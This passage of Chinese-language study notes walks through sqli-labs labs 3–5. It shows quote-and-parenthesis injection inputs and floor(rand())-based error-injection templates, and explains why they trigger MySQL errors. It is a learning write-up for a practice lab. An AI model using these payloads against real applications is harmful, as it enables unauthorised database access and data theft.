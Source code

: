 ```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''8'') LIMIT 0,1' at line 1
```

这个报错其实是在单引号后面还有一个括号，要将括号补充上

```
?id=8') order by 3 --+
```

后面就一样的，只是加了个括号

#### lab4

输入单引号没用，尝试发现双引号报错`use near '"1"")`，猜测是还要用括号

```
?id=1")--+
```

成功注入

后续就一样了

#### lab5（报错注入）

也是检查什么类型，不过这个没有返回，只会显示成功进入，用数字型的尝试没有用，于是用字符型的

```
?id=1' and 1=2 --+
```

成功让页面报错，测试用报错注入

这里在网上学到了几个手工报错方法，都记录一下

1. `floor()` 报错注入
   该语句的输出字符长度为64个字符

   ```sql
    and (select 1 from (select count(*),concat(payload),floor(rand(0)*2))x from information_schema.tables group by x)a)
   ```

   ```sql
   union select count(*),0,concat((payload),floor(rand()*2))as a from information_schema.tables group by a limit 0,10 
   ```

   > **内层查询**
   >
   > ```sql
   > (select count(*),concat((payload),floor (rand(0)*2)) as x  
   > from information_schema.tables group by x)
   > ```
   >
   > `select count(*)`：统计每个分组后的行数，但是分组冲突无法统计，这里只是配合group by分组
   >
   > `concat((payload),floor(rand(*)*2)) x`：payload是希望获取的数据
   > `floor()`是向下取整
   > `rand(0)`是随机数生成函数，里面指定了种子0，生成固定的伪随机序列
   > `floor(rand(*)*2)`就会生成0或1的一个序列
   >
   > `group by x`：这个是对查询结果进行分组
   > 这个报错的核心就是这个和floor()，因为`floor(rand(*)*2)`会产生01的序列和前面的payload拼接
   > 在mysql中，执行`group by`语句和`count`时，会创建一个虚拟表，进行计数和分组
   >
   > `group by` 后面的字段和虚拟表进行对比
   > 如果存在，就计数加1
   > 如果不存在，就会插入，在插入时会再运算一次结果，因为rand的随机性，导致第二次运算的结果和第一次不一样，运算的结果存在虚拟表中，就会报错
   >
   > **外层查询**